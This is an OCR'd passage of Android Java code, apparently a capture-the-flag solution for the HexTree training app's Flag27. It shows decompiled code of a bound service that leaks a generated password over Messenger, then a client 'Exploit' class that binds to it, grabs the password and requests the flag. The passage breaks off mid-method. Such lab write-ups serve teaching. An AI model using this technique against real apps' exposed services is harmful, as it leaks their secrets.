 ```java
            Bundle bundle = new Bundle();
            String string2 = UUID.randomUUID().toString();
            this.password = string2;
            bundle.putString("password", string2);
            messageObtain.setData(bundle);
            try {
                message.replyTo.send(messageObtain);
                Flag27Service.this.sendReply(message, "Password");
            } catch (RemoteException e) {
                throw new RuntimeException(e);
            }
        }
    }

    @Override // android.app.Service
    public IBinder onBind(Intent intent) {
        Log.i("Flag27Service", Utils.dumpIntent(this, intent));
        return this.messenger.getBinder();
    }

    /* JADX INFO: Access modifiers changed from: private */
    public void sendReply(Message message, String str) throws RemoteException {
        try {
            Message messageObtain = Message.obtain((Handler) null, message.what);
            messageObtain.getData().putString("reply", str);
            message.replyTo.send(messageObtain);
        } catch (RemoteException e) {
            e.printStackTrace();
        }
    }

    /* JADX INFO: Access modifiers changed from: private */
    public void success(String str) {
        Intent intent = new Intent(this, (Class<?>) Flag27Activity.class);
        intent.putExtra("secret", secret);
        intent.putExtra("echo", str);
        intent.addFlags(268468224);
        intent.putExtra("hideIntent", true);
        startActivity(intent);
    }
}
// -------------------------------------------------------------------------------------------------
// Exploit
public class Hextree extends AppCompatActivity {
    private boolean isBound = false;
    private final Messenger clientMessegener = new Messenger(new IncomingHandler());
    private Messenger serviceMessenger = null;
    private String obtainedPassword;
    private class IncomingHandler extends Handler{
        IncomingHandler() {super(Looper.getMainLooper());}

        @Override
        public void handleMessage(Message msg){
            Bundle reply =  msg.getData();
            obtainedPassword = reply.getString("password");
            if(reply != null && obtainedPassword != null) {
                Log.i("MessageReply1234", reply.toString());
                Log.d("MessageReply1234", "Obtained password: " + obtainedPassword);

            getFlag(obtainedPassword);
            }
            else{
```